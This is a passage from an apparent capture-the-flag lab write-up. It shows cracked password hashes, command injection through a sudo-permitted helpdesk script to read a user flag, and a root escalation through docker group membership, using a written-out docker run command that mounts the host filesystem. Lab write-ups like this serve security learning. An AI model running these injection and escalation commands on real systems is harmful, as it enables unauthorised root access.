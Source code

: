 ```
7e53614ced3640d5de23f111806cc4fd:masterpassword
686216240e5af30df0501e53c789a649:dontaskdonttell
```
I'm not sure if all these secrets are useful for us. Going back to our SSH session, run:
```
sudo -l

Matching Defaults entries for apaar on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User apaar may run the following commands on ubuntu:
    (apaar : ALL) NOPASSWD: /home/apaar/.helpline.sh
```
It means we can use `sudo` for running the specified command on behalf of `apaar` user. Furthermore, by analyzing `.helpline.sh` code, we can see that we can inject commands, so we can run commands on behalf of `apaar` user:
```
sudo -u apaar /home/apaar/.helpline.sh

Welcome to helpdesk. Feel free to talk to anyone at any time!

Enter the person whom you want to talk with: test
Hello user! I am test,  Please enter your message: cat /home/apaar/local.txt
{USER-FLAG: e8vpd3323cfvlp0qpxxx9qtr5iq37oww}
Thank you for your precious time!
```
So, we got the user flag inside `local.txt`.

## Phase 3: Privilege Escalation

By running `id` command, we notice that `anurodh` user belongs to the docker group:
```
id

uid=1002(anurodh) gid=1002(anurodh) groups=1002(anurodh),999(docker)
```
It means we can perform a privilege escalation by running:
```
docker run -v /:/mnt --rm -it alpine chroot /mnt sh

# whoami
root
```

Now we can get the root flag by `cat /root/proof.txt`.